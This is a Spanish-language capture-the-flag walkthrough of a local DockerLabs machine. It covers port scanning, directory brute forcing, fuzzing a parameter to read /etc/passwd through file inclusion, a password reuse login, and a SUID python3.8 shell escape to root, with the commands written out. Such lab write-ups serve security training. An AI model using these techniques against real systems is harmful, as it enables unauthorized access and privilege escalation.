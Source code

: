 nmap:  22,80

![image](https://github.com/user-attachments/assets/eaad09c8-5a05-446f-96cb-e8c76e63dd4f)

en la pagina como en el nmap, vemos que es apache2, en el código fuente no hay nada, hacemos un gobuster

     gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,py,txt -t 64


y nos da in index.php

![image](https://github.com/user-attachments/assets/31191b22-876a-44d3-8876-3e596b67f795)

![image](https://github.com/user-attachments/assets/6ff70d6f-697d-4666-90f8-355f6bbe8d46)

buscamos eso y da solo en la pagina un "balu"

![image](https://github.com/user-attachments/assets/fed9b04c-c1b9-48ad-a9b4-bf5ad959017d)

probé con hydra pero no obtuve nada. Como la carpeta o directorio que nos dio, podemos probar con ffuf

     ffuf -u http://172.17.0.2/index.php?FUZZ=/etc/passwd -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 

y nos dio un: page

![image](https://github.com/user-attachments/assets/030a13f1-9264-48ee-a294-ac3b02cebad3)

y obtenemos

![image](https://github.com/user-attachments/assets/6b8483b6-54ab-4e9d-a79b-f37136262969)

nos dan dos usuarios: pinguino y mario. probamos a los usuarios con la contraseña "balu"

entramos

![image](https://github.com/user-attachments/assets/6e168484-ed12-487a-b28a-a379ec8e0a4b)

y escalamos a mario muy facil

![[dockerlabs/facil/patriaquerida/conexion2.png]]

utilizamos el comando

     find / -perm -4000 -ls 2>/dev/null

y nos da un binario importante 

![[python1.png]]

la buscamos en https://gtfobins.github.io/gtfobins/python/#sudo

![[python2.png]]

modificamos el python a python3.8 como el binario y lanzamos

     python3.8 -c 'import os; os.execl("/bin/sh", "sh", "-p")'

![[dockerlabs/facil/patriaquerida/root.png]]

somos root!
